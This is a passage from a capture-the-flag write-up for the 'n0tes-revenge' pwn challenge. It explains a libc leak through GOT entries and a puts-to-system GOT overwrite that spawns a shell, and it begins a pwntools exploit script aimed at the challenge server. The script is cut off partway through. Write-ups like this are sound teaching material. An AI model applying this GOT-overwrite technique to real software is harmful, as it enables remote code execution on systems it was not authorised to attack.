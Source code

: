 Now to the third step which is leaking the libc base address, there are many ways to do that.
From here what I heard there were a couple of approaches,
one person (from camelRiders) had the idea to edit the note so that it will point to the GOT entries of printf/puts and then do showNote which will show the address of printf/puts and from there you have the libc address.
But there is also another way, that I like more, and that is the one I will use, I will utilize the fact that after I set an offset in editNote it tells me what's in it (16 bytes always), so if I give the address of the GOT entry of puts it will give me the address of the puts and let me edit it in the same go. (and it doesn't matter which 16 bytes these are because it prints with fwrite.

Now that we have libc we can do anything, you can try to find a one-gadget but I think that is over-complicating so I just went and changed the banner text to "/bin/sh\0" and changed the GOT puts to system and then when it went to print the banner BOOM we got shell!

## Exploit
The server uses a different kind of libc from my machine so I tried using https://libc.blukat.me/, and https://libc.rip/ and libc.rip found the correct solution, the correct libc is [libc6-amd64_2.36-3_i386](https://libc.rip/#) (at least it has the correct system and puts)

    from pwn import *
    
    delete = 0x11F9
    deleteNoteAddr = 0x11F9
    banner = 0x3740
    IP, PORT = "n0tes-revenge.ctf.bsidestlv.com", 9999
    
    elf = ELF('./n0tes-revenge')
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    con =  remote(IP, PORT) #process('./n0tes-revenge')
    
    def menu_pick(num: bytes):
    	con.recvuntil(b'>> ')
    	con.sendline(num)
    
    
    def leak_base() -> int:
    	menu_pick(b'4') #deleteNote
    	con.recvuntil(b'@')
    	delete_addr_hex = con.recvuntil(b']')[:-1]
    	delete_addr = int(delete_addr_hex, 16)
    	base = delete_addr - delete
    	return base
    
    def new_note(content: bytes):
    	menu_pick(b'1')
    	msg = con.recvuntil(b': ')
    	if b'Error' in msg:
    		return False
    	else: 
    		con.sendline(content)
    		return True
    
    
    def edit_note(index: int, content: bytes):
    	assert len(content) <= 16
    